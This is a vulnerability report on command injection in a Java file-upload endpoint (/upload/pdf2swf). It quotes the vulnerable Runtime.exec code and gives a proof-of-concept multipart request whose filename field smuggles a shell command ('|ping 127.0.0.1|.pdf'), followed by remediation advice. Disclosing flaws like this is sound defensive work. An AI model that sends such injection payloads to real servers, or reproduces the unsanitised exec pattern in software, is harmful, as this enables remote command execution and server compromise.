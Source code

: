 ![image-20250213234257067](./assets/image-20250213234257067.png)

# Vulnerability Report

## Title: File Path Manipulation Leading to Command Execution

### Summary:
A vulnerability exists in the file upload functionality of the `/pdf2swf` endpoint, where user-controlled input is used to construct a command executed by the server. This can lead to remote command execution (RCE) as the application does not properly sanitize the input, allowing attackers to inject arbitrary commands.

### Affected Endpoint:
`/upload/pdf2swf`

### Vulnerability Type:
File Path Manipulation Leading to Command Execution

### Vulnerable Code:
```java
@RequestMapping({"/pdf2swf"})
@ResponseBody
public String pdf2swf(HttpServletRequest request, HttpServletResponse response) {
    try {
        MultipartHttpServletRequest multipartRequest = (MultipartHttpServletRequest)request;
        MultipartFile imgFile = multipartRequest.getFile("fileupload");
        if (imgFile.getName().endsWith(".jsp")) {
            return null;
        } else {
            String[] paths = FileUtil.getSavePathByRequest(request);
            JsonObject json = FileUtil.saveCommonFile(imgFile, paths); // paths = |ping 127.0.0.1|.pdf
            String pdffilename = FileUtil.rootpath + json.get("url").getAsString();
            pdffilename = pdffilename.replaceAll("//", "/");
            logger.info("pdffilename:" + pdffilename);
            String swfFileName = pdffilename.substring(0, pdffilename.lastIndexOf(".")) + ".swf";
            String res = DocConverter.pdf2swf(pdffilename, swfFileName); // vulnerable
            if (!"success".equalsIgnoreCase(res)) {
                logger.info("res:" + res);
                return res;
            } else {
                return swfFileName.replace(FileUtil.rootpath, "/");
            }
        }
    } catch (Exception var10) {
        logger.error("pdf2swf error", var10);
        return null;
    }
}

public static String pdf2swf(String pdfName, String swfName) throws Exception {
    File pdfFile = new File(pdfName);
    File swfFile = new File(swfName);
    Runtime r = Runtime.getRuntime();
    if (!swfFile.exists()) {
        if (pdfFile.exists()) {
            try {
                // vulnerable
                r.exec("/opt/swftools/bin/pdf2swf " + pdfName + " -o " + swfName + " -T 9");
                logger.info("swf conversion successful, file output: " + swfName);
                return "success";
            } catch (Exception var6) {
                var6.printStackTrace();
                return "convererror";
            }
        } else {
            return "pdfnotexists";
        }
    } else {
        return "swfexists";
    }
}
```

### Proof of Concept (PoC):
```
POST /upload/pdf2swf HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Accept: */*
Connection: close

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; name="file"; paths="|ping 127.0.0.1|.pdf"
Content-Type: image/jpeg

Test
------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```

### Impact:
An attacker can exploit this vulnerability to execute arbitrary commands on the server, leading to a complete compromise of the server. This can include data exfiltration, service disruption, and further exploitation of the internal network.

### Recommendation:
1. **Input Validation:** Ensure that all user inputs are properly validated and sanitized. Avoid using user input directly in system commands.
2. **Use Safe APIs:** Use safer APIs that do not involve command execution, such as libraries for handling PDF to SWF conversion that do not rely on command-line tools.
3. **Least Privilege:** Run the application with the least privileges necessary to limit the impact of any potential exploitation.
4. **Logging and Monitoring:** Implement comprehensive logging and monitoring to detect and respond to suspicious activities.

### Conclusion:
The file upload functionality in the `/pdf2swf` endpoint is vulnerable to command injection due to improper handling of user input. This vulnerability can lead to severe consequences, including remote command execution. It is crucial to address this issue promptly by implementing proper input validation and using safer APIs.

### References:
- [OWASP Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [Java Input Validation](https://www.baeldung.com/java-input-validation)